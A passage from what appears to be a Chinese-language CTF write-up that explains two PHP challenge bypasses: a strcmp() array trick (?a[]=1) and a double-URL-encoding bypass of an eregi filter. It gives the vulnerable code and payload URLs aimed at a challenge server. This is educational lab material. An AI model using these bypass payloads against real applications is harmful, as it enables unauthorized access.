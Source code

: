 知识点：

die() 函数输出一条消息，并退出当前脚本。

strcmp(str1, str2)比较两个字符串大小，若是非字符串（例如数组）比较，则会出错。在5.3之前的php中，显示了报错的警告信息后，将return 0。0==0执行
payload:?a[]=1

### 3、urldecode二次编码绕过

```
http://123.206.87.240:9009/10.php

<?php
if(eregi("hackerDJ",$_GET[id])) {
echo("

not allowed!

");
exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
echo "

Access granted!

";
echo "

flag

";
}
?>
```

eregi()在一个字符串中搜索指定的模式的字符串，搜索不区分大小的正则匹配。
urldecode()解码以编码的URL字符串，但是$_GET[]会将参数解码一次。

若本题将“hackerDJ”进行两次URL编码，在eregi()中比较”hackerDJ”与$_GET[id]是否相同，$_GET会解码一次，从二次URL编码变成一次URL编码；urldecode()会将$_GET[id]从二次URL编码变成一次URL编码，赋值给$_GET[id]，当$_GET[id]与“hackerDJ”比较时，$_GET[id]再从一次URL编码解码，最后比较相等得到flag。

将“hackerDJ”进行两次URL编码。

Payload(hackerDJ 可以全部字母或者个别字母做二次urlEncode)

[http://123.206.87.240:9009/10.php?id=%25%36%38%25%36%31%25%36%33kerDJ](http://123.206.87.240:9009/10.php?id=%2568%2561%2563kerDJ)

或者

[http://123.206.87.240:9009/10.php?id=%25%36%38%25%36%31%25%36%33%25%36%62%25%36%35%25%37%32%25%34%34%25%34%61](http://123.206.87.240:9009/10.php?id=%2568%2561%2563%256b%2565%2572%2544%254a)
